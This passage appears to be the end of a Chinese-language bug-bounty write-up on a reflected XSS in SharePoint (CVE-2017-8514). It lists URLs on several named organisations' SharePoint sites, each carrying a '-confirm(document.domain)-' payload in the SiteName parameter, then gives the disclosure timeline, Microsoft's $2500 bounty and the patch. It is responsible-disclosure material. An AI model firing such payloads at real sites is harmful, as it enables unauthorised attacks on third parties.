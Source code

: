 ```
20. [http://nfm.mjs.bg/NFMs/EN/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](http://nfm.mjs.bg/NFMs/EN/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)

21. [https://cowork.us.extranet.lenovo.com/promotions/nax86vug/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](https://cowork.us.extranet.lenovo.com/promotions/nax86vug/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)

22. [https://www.utp.edu.my/Academic/CSIMAL/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](https://www.utp.edu.my/Academic/CSIMAL/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)

23. [https://rcilab.in/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](https://rcilab.in/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)

24. [https://www.sgsts.org.uk/governor/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](https://www.sgsts.org.uk/governor/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)

25. [https://portal.veic.org/sunshot/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27](https://portal.veic.org/sunshot/SitePages/Home.aspx?FollowSite=0&amp;SiteName=%27-confirm(document.domain)-%27)



**时间轴和赏金**

通过secure@microsoft.com将漏洞报告给Microsoft：2017年2月20日

secure@microsoft.com回复电子邮件，并确定问题编号：2017年2月20日，编号为37482

secure@microsoft.com回复电子邮件，确认漏洞可重现：2017年2月28日

2017年3月9日，收到来自secure@microsoft.com的电子邮件，确认该漏洞能够得到奖金

2017年3月10日，收到来自bounty@microsoft.com的电子邮件，确认奖金金额为2500美元

[![](https://p2.ssl.qhimg.com/t0120d308c202c6fc46.png)](https://p2.ssl.qhimg.com/t0120d308c202c6fc46.png)

2017年6月9日，我收到一封关于漏洞修复的电子邮件，修复补丁将作为2017年6月更新的一部分发布。以下是CVE-2017-8514的链接：https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8514。Microsoft还发布了一个我在SharePoint [Project Web App](https://support.office.com/en-us/article/Get-started-with-Project-Web-App-0c5b05b3-b444-438c-8b22-100d87ade40b?ui=en-US&amp;rs=en-US&amp;ad=US&amp;fromAR=1)中找到的存储型XSS的补丁。CVE-2017-8551 https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8551与此相关。我随后会尽量再做一个Write-up。

[![](https://p1.ssl.qhimg.com/t01ce0b849a41a07d54.png)](https://p1.ssl.qhimg.com/t01ce0b849a41a07d54.png)

我想，现在是时候去给你的SharePoint打补丁了。




